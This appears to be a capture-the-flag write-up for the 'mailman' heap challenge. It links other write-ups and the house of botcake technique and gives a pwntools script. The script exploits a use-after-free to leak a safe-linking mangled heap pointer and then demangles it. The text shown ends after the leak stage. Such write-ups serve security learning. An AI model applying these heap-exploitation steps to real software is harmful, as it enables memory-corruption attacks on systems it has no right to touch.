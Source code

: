 
[ret2school's writeup](https://ret2school.github.io/post/mailman/)

[surgdev's writeup](https://surg.dev/ictf23/)

[shellphish house of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c)

### Full Exploit
```python
#!/usr/bin/env python3

from pwn import *
import time

'''
p = gdb.debug("./mailman_patched", gdbscript="""
    c
""")
'''
p = process("./mailman_patched")

context.arch = 'amd64'

def malloc_letter(idx, size, content):
    p.sendline(b"1")
    p.recvuntil(b"idx: ")
    p.sendline(str(idx).encode('utf-8'))
    p.recvuntil(b"letter size: ")
    p.sendline(str(size).encode('utf-8'))
    p.recvuntil(b"content: ")
    p.sendline(content)

def free_letter(idx):
    p.sendline(b"2")
    p.recvuntil(b"idx: ")
    p.sendline(str(idx).encode('utf-8'))

def read_letter(idx):
    p.sendline(b"3")
    p.recvuntil(b"idx: ")
    p.sendline(str(idx).encode('utf-8'))
    leak = int.from_bytes(p.recvline().strip(), 'little')
    return leak 

def demangle(ptr):
    mid = ptr ^ (ptr >> 12)
    return mid ^ (mid >> 24)

# leak mangled_ptr (UAF)
content = b"aaaa"
p.recvuntil(b">")
malloc_letter(0, 20, content)
malloc_letter(1, 20, content)

free_letter(0)
free_letter(1)

mangled_ptr = read_letter(0)
print(f"mangled ptr: {hex(mangled_ptr)}")

# demangle it 
ptr = demangle(mangled_ptr)
print(f"demangled ptr: {hex(ptr)}")

```